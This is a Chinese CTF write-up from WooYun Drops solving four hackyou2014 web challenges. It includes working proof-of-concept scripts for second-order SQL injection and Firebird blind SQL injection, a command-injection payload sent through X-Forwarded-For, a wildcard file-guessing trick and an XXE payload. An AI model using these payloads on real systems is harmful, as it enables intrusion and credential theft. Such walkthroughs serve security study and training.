








# hackyou2014 CTF web 关卡通关攻略

2014/01/21 18:57 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

作者：Mickey,瞌睡龙

所有文件已打包可自己搭建测试：

[CTF.zip](http://static.wooyun.org/20141017/2014101711044119266.zip)

## 第一关

* * *

[`hackyou2014tasks.ctf.su:10080/`](http://hackyou2014tasks.ctf.su:10080/)

打开网页，通过看源代码发现有

```
<!-- TODO: remove index.phps -->

```

尝试访问 index.phps，如图 1，



通过查看 index.phps,发现源代码如下：

```
<?php
include 'db.php';
session_start();
if (!isset($_SESSION['login'])) {
    $_SESSION['login'] = 'guest'.mt_rand(1e5, 1e6);
}
$login = $_SESSION['login'];

if (isset($_POST['submit'])) {
    if (!isset($_POST['id'], $_POST['vote']) || !is_numeric($_POST['id']))
        die('Hacking attempt!');
    $id = $_POST['id'];
    $vote = (int)$_POST['vote'];
    if ($vote > 5 || $vote < 1)
        $vote = 1;
    $q = mysql_query("INSERT INTO vote VALUES ({$id}, {$vote}, '{$login}')");
    $q = mysql_query("SELECT id FROM vote WHERE user = '{$login}' GROUP BY id");
    echo '<p><b>Thank you!</b> Results:</p>';
    echo '<table border="1">';
    echo '<tr><th>Logo</th><th>Total votes</th><th>Average</th></tr>';
    while ($r = mysql_fetch_array($q)) {
        $arr = mysql_fetch_array(mysql_query("SELECT title FROM picture WHERE id = ".$r['id']));
        echo '<tr><td>'.$arr[0].'</td>';
        $arr = mysql_fetch_array(mysql_query("SELECT COUNT(value), AVG(value) FROM vote WHERE id = ".$r['id']));
        echo '<td>'.$arr[0].'</td><td>'.round($arr[1],2).'</td></tr>';
    }
    echo '</table>';
    echo '<br><a href="index.php">Back</a><br>';
    exit;
}
?>
<html>
<head>
    <title>Picture Gallery</title>
</head>
<body>
<p>Welcome, <?php echo $login; ?></p>
<p>Help us to choose the best logo!</p>
<form action="index.php" method="POST">
<table border="1" cellspacing="5">
<tr>
<?php
$q = mysql_query('SELECT * FROM picture');
while ($r = mysql_fetch_array($q)) {
    echo '<td><div align="center">'.$r['title'].'<br><input type="radio" name="id" value="'.$r['id'].'"></div></td>';
}
?>
</tr>
</table>
<p>Your vote:
<select name="vote">
<option value="1">1</option>
<option value="2">2</option>
<option value="3">3</option>
<option value="4">4</option>
<option value="5">5</option>
</select></p>
<input type="submit" name="submit" value="Submit">
</form>
</body>
</html>
<!-- TODO: remove index.phps -->

```

其中 id 是被 is_numeric 过滤后，插入到 vote 表里的，可以用十六进制或者二进制绕过 is_numeric,把注入查询语句插入到 vote 表里，然后又从 vote 表里取出，形成二次注入。

POC 如下：

```
#!/usr/bin/env python
import requests
import binascii
import sys

def hack(inject):
    vul={'id':inject,'vote':3,'submit':1}
    req=requests.post('http://hackyou2014tasks.ctf.su:10080/index.php',data=vul)
    print req.content

if __name__=="__main__":
    hack("0x" + binascii.hexlify(sys.argv[1]))

```

效果图如 2



## 第二关

* * *

[`hackyou2014tasks.ctf.su:20080/`](http://hackyou2014tasks.ctf.su:20080/)

这关打开后是个贪吃蛇游戏，只有注册用户才能保存结果，我们注册一个用户 babybox，玩完游戏后访问后台，发现有个 ip 参数值得注意，尝试提交

```
http://hackyou2014tasks.ctf.su:20080/cgi-bin/index.pl?ip=../../../../../../var/www/cgi-bin/index.pl 
```

发现有 LFI，如图 3



通过读取到的 index.pl 源码可以发现，

```
$login = $session->param('login');
print $req->p('Hello, '.$login.'!');
if ($req->param('ip')) {
    $file = './data/'.MD5($login)."/".$req->param('ip');
    if (-e $file) {
        open FILE, $file;
        $html = '';
        while (<FILE>) {
            $html .= $_;
        }
        close(FILE);
        print $req->start_table({border=>1});
        print $req->Tr($req->th(['Date', 'Score']));
        print $html;
        print $req->end_table();
        print $req->a({href=>'index.pl'}, 'Back');
    } else {
        print $req->h1('Error');
    }
}

```

其中的 open 函数，可以导致命令执行，下载火狐的 X-Forwarded-For Header 插件，设置 X-Forwarded-For 为|pwd|，然后玩游戏，进后台看成绩，提交

```
http://hackyou2014tasks.ctf.su:20080/cgi-bin/index.pl?ip=|pwd| 
```

发现命令注入成功了。由于这里不能使用/和\字符，我们可以使用 base64 编码下，如图 4

这之前需要在提交成绩的时候 X-Forwarded-For 改为

```
|`echo bHMgLw== | base64 -d`| 
```



## 第三关

* * *

[`hackyou2014tasks.ctf.su:30080/`](http://hackyou2014tasks.ctf.su:30080/)

这关可分为两部分

```
1、找到隐藏的管理后台
2、盲注获取权限 
```

找到隐藏的管理后台需要利用 windows 平台上的一个技巧，具体的研究测试报告可以看这里：

[Windows+PHP bug realted with findfirstfile](http://onsec.ru/onsec.whitepaper-02.eng.pdf)

php 的某些函数获取文件时，可以使用`<`代替其他字符进行猜解。

```
p<< 
```

表示

```
p* 
```

include_once 函数包含文件将会返回以 p 开头的第一个文件，这里返回了 phpinfo()的信息。

可以知道后台的数据库是 firebird，如图 5，



然后猜解后台目录：

```
http://hackyou2014tasks.ctf.su:30080/index.php?page=0<<

http://hackyou2014tasks.ctf.su:30080/index.php?page=0a<< 
```

根据页面返回当中是否有

```
Page does not exists 
```

字符串，来判断猜解的字符串是否正确。

然后用 burpsuite 去猜测剩余的字符，全部猜测成功后，发现

```
http://hackyou2014tasks.ctf.su:30080/0a5d2eb35b90e338ed481893af7a6d78/index.php 
```

是个后台登陆口，没有账号，继续翻前台，发现

```
http://hackyou2014tasks.ctf.su:30080/index.php?page=shop&order=cost 
```

有注入

```
http://hackyou2014tasks.ctf.su:30080/index.php?page=shop&order=cost ASC 
```

其实看到 order 参数，就很容易猜测可能是 order by 语句后的注入 :)

针对这个场景，firebird 数据库，可控语句在 order by 之后，只能采取盲注：

已有人写好跑数据的 perl 脚本：

```
use LWP::Simple;
#username:password
#admin:9shS3FAk

# extract columns from USERS

$url="http://hackyou2014tasks.ctf.su:30080/index.php?page=shop&order=";

$fst="case when(1=(select first 1 1 from rdb\$relation_fields where lower(RDB\$RELATION_NAME)=ascii_char(117)||ascii_char(115)||ascii_char(101)||ascii_char(114)||ascii_char(115) and lower(rdb\$field_name) LIKE ";
$snd="||ascii_char(37) )) then (select first 1 1 from rdb\$relations) else (select first 2 1 from rdb\$relations) end";
$b=0;

# LOGIN column part
for($j=0;$j<100;$j++){
for($i=97;$i<122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
        #print "j: ".$j." i:".$i."\n";
        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95){
                print chr($i);
                $fst.="ascii_char(".$i.")||";

                last;
        }else{
                $b++;
        }
}
if($b==122-97){
        last;
}else{
$b=0;
}
}
print "\n";

# PASSWD column part
$fst="case when(1=(select first 1 1 from rdb\$relation_fields where lower(RDB\$RELATION_NAME)=ascii_char(117)||ascii_char(115)||ascii_char(101)||ascii_char(114)||ascii_char(115) and lower(rdb\$field_name) LIKE ";
$b=0;
for($j=0;$j<100;$j++){
for($i=97;$i<122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;

        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95 && $i!=108){
                print chr($i);
                $fst.="ascii_char(".$i.")||";
                last;
        }else{
                $b++;
        }
}
if($b==122-97){
        last;
}else{
$b=0;
}
}
print "\n";

#extract data from USERS ( LOGIN,PASSWD)

$fst="case when(1=(select first 1 1 from USERS where LOGIN LIKE ";
$snd="||ascii_char(37) )) then (select first 1 1 from rdb\$relations) else (select first 2 1 from rdb\$relations) end";
for($j=0;$j<100;$j++){
for($i=65;$i<=122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
        #print $j." ".$i."\n";

        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95){
                print chr($i)."\n";
                $fst.="ascii_char(".$i.")||";
                last;
        }else{
                $b++;
        }
}
if($b==123-65){
        last;
}else{
$b=0;
}
}
print "\n";

$fst="case when(1=(select first 1 1 from USERS where PASSWD LIKE ";
$snd="||ascii_char(37) )) then (select first 1 1 from rdb\$relations) else (select first 2 1 from rdb\$relations) end";
for($j=0;$j<100;$j++){
for($i=48;$i<=122;$i++){
        $sql=$url.$fst."ascii_char(".$i.")".$snd;
        #print $j." ".$i."\n";

        $html=get $sql;
        if ($html=~/1337/ && $i!=37 && $i!=95){
                print chr($i)."\n";
                $fst.="ascii_char(".$i.")||";
                last;
        }else{
                $b++;
        }
}
if($b==123-48){
        last;
}else{
$b=0;
}
}
print "\n";

```

最后可以看到数据为：

```
admin
9shS3FAk 
```

到登陆页面登陆即可过关。

## 第四关

* * *

这关提供源码下载了，[`hackyou.ctf.su/files/web400.zip`](http://hackyou.ctf.su/files/web400.zip)

```
<?php
include 'config.php';
include 'classes.php';
$action = (isset($_REQUEST['action'])) ? $_REQUEST['action'] : 'View';
$param = (isset($_REQUEST['param'])) ? $_REQUEST['param'] : 'index';
$page = new $action($param);
echo $page;
?>

```

看这行

```
$page = new $action($param);

```

我们能实例化任意的类，并且传递$param 给构造函数，我们先拿 SimpleXMLElement 看看效果

[`cn2.php.net/manual/en/simplexmlelement.construct.php`](http://cn2.php.net/manual/en/simplexmlelement.construct.php)

POC 如下：

```
#!/usr/bin/env python
import requests
import sys
import base64

def hack(inject):
    vul={'param':'<!DOCTYPE foo [<!ENTITY xxe SYSTEM "' + inject + '" >]><foo>&xxe;</foo>'}
    req=requests.post('http://hackyou2014tasks.ctf.su:40080/index.php?action=SimpleXMLElement',data=vul)
    print base64.b64decode(req.content)

if __name__=="__main__":
    hack(sys.argv[1])

```

效果如图 6:



也可以用 SplFileObject

[`cn2.php.net/manual/en/splfileobject.construct.php`](http://cn2.php.net/manual/en/splfileobject.construct.php)

效果图如 7:



最后用 GlobIterator 得到结果

[`cn2.php.net/manual/en/globiterator.construct.php`](http://cn2.php.net/manual/en/globiterator.construct.php)

效果图如 8:



版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)
*   [Hack.lu 2014 Writeup](http://drops.wooyun.org/tips/3420)
*   [攻击 JavaWeb 应用[4]-SQL 注入[2]](http://drops.wooyun.org/tips/288)
*   [xss 挑战赛 writeup](http://drops.wooyun.org/tips/3059)
*   [Attacking MongoDB](http://drops.wooyun.org/papers/850)
*   [waf 绕过的技巧](http://drops.wooyun.org/tips/132)